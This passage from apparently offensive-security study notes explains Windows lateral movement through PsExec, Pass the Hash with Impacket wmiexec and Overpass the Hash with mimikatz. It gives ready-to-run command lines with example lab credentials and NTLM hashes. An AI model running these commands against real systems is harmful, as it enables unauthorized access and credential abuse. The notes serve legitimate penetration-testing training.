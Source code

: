 The last two requirements are enabled by default on recent Windows Servers.

To execute commands remotely, PsExec does the following:
- Places **psexesvc.exe** in the **C:\Windows** directory
- Creates and activates a service on the remote host
- Runs the command/program as a child of **psexesvc.exe**

You need to transfer **PsExec64.exe** to the machine and then run the following command:

```bash
./PsExec64.exe -i  \\$TARGET -u $DOMAIN\$USER -p $PASSWORD cmd

# example
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

## Pass the Hash

The _Pass the Hash_ (PtH) technique allows an attacker to authenticate to a remote system or service using a user's NTML hash instead of their password. Of course, this only works if the systems and services use NTLM (and not Kerberos) authentication.

There are several tools that use this technique:
- [_PsExec_](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/) (Metasploit)
- [_Passing-the-hash toolkit_](https://github.com/byt3bl33d3r/pth-toolkit)
- [_Impacket_](https://github.com/CoreSecurity/impacket/blob/master/examples/smbclient.py)

The mechanism behind this technique is almost the same as the one used by the attacker when he connects to the target using SMB and authenticates via NTLM hash.

Again, there are some prerequisites:
- The user authenticating to the target machine must be part of the **Administrators local** group
- The _ADMIN$_ share must be available
- SMB connection through the firewall
- The _File and Printer_ sharing must be "turned on"

Using _Impacket wmiexec_ for **PtH**:

```bash
/usr/bin/impacket-wmiexec -hashes :$NTLM_HASH Administrator@$IP_TARGET

# example
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```

## Overpass the Hash

With the _overpass the hash_ technique, you can leverage the NTLM hash to obtain a full Kerberos _Ticket Granting Ticket_ (TGT). You can then use this TGT to obtain a _Ticket Granting Service_ (TGS).

**IMPORTANT**: Administrator privileges are required on the machine.

```bash
.\mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NTLM_HASH /run:powershell

# esempio
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
